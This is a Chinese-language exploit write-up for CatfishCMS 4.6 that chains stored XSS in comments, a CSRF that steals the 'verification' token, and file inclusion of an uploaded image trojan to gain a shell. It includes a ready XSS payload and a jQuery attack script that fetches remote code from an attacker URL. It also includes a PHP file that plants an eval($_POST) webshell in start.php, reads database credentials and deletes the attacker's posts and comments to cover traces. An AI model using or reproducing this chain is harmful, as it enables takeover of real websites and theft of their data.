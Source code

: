 CatfishCMS 4.6.15 csrf getshell
===============================

一、漏洞简介
------------

在测试的过程中发现更新版本的时候作者添加一个参数 verification
可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification
就显的苍白无力了，因为我们可以先获取verification 然后在执行csrf 从而来绕过。

二、漏洞影响
------------

CatfishCMS 4.6

三、复现过程
------------

### 漏洞分析

文件：CatfishCMS-4.6.12\\catfish\\library\\think\\Template.php

函数：fetch()

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId25.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId26.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId27.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId28.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId29.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId30.png)

嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入恶意代码 那么就可以为所欲为。

### 复现

前台注册一个账户-\>注册一个图片马到网站中-\>评论处插入xss代码-\>等待无辜管理员登录网站-\>获取
verification(绕过检测)-\>管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)-\>包含漏洞执行代码-\>包含漏洞添加getshell\_code.php文件写入恶意代码-\>包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库-\>删除我们前面的评论-\>删除我们csrf创建的页面-\>邮件通知我们-\>getshell

CatfishCMS-4.6.12-xss.js

    /*  
        需要插入的xss代码
        <img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
    */ 

    //不用动的
    var articles = 'index.php/admin/Index/articles.html';//用来获取 verification 绕过检测
    var newpage = 'index.php/admin/Index/newpage.html';//生成文章地址
    var allpage = 'index.php/admin/Index/allpage.html';//获取文章链接

    //需要改的
    var url = 'http://0-sec.org';//你要日的站的域名
    var directory = '/cms/CatfishCMS-4.6.12/'; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)
    var img_trojan_url = '../../../'+'data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg';//图片马的地址 修改 + 号后面的即可
    var getshell_code = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt';//恶意代码远程包含的地址

    $('body').append('<div id="csrf_verification" style="display:none;"></div>');
    $('body').append('<div id="csrf_allpage" style="display:none;"></div>');

    $.ajax({
        url: url+directory+articles,
        dataType: "json",
        success: function(verification_content){
            $('#csrf_verification').append(verification_content);
            var verification = $('#verification').html();//用来绕过验证的
            // alert(verification);

            //csrf生成文章,引起文件包含漏洞
            $.ajax({
                type: "POST",
                url: url+directory+newpage,
                data: {
                    'biaoti':'xss_csrf_getshll',
                    'template':img_trojan_url,
                    'verification':verification,
                    'fabushijian':'2017-12-05 11:56:48'
                },
                success: function(){
                    //csrf获取shell链接
                    $.ajax({
                        type: "POST",
                        url: url+directory+allpage,
                        success: function(allpage_content){
                            $('#csrf_allpage').append(allpage_content);
                            var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                            var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                            var shell_content = '';
                                shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                                shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                                shell_content+= 'fwrite($myfile, $txt);';
                                console.log(shell_content);
                            
                            //执行shell 生成马子
                            $.ajax({
                                type: "POST",
                                url: url+shell_url,
                                dataType: "json",
                                data: {'ddd':shell_content},
                                success: function(data){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                },
                                error: function(){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                }   
                            });

                        } 
                    });

                } 
            });

        }
    });

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId32.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId33.png)

写好以后模拟管理员，进入后台

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId34.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId35.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId36.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId37.png)

getshell\_code

    <?php  
        $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
        $start = fopen('catfish/start.php', 'w');
        fwrite($start, $start_content);
        if( @$_GET[zzz]){
            $config = require_once("application/database.php");
            //分别对应的是 地址，端口号，连接的数据库，编码
            $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
            $user = $config['username'];
            $psw = $config['password'];
            $pdo = new PDO($dsn,$user,$psw);
            $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
            $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
            $pdo->query($sql);
            $pdo->query($sql_1);
            unlink('getshell_code.php');
        }
    ?>

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId38.png)

连接马子的操作，这个文件会在index.php中给引入所以直接

    http://0-sec.org/index.php

    POST

    ddd = 你要执行的命令

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId39.png)

![](resource/CatfishCMS4.6.15csrfgetshell/media/rId40.png)
